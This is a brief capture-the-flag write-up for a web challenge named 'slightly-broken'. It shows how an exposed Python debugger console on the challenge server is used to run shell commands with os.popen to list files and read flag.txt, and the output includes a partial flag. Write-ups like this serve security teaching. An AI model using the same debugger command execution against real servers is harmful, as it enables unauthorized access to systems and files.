

#  slightly-broken

Description:
```
For this one, only contact admins for socialising with them. Do not contact them for errors at this challenge.
```

The landing page gets us the following message:
```
Now go get the flag: Enjoy!
```

And a hyperlink to 'http://34.159.27.166:31044/getflag?cmd&a&b&c&d&e&f&g&h&i&j&k&l&m%n#d'



We can see that we are dealing with a python server. We can try to execute code via the debugger.

```python
>>> import os;output = os.popen("ls").read();print(output)
app.py
flag.txt

```

And it works! We can now read the flag.
```python
>>> import os;output = os.popen("cat flag.txt").read();print(output)
ECSC{672e1423c22222e4e4c87e27a443b4b72c298....
```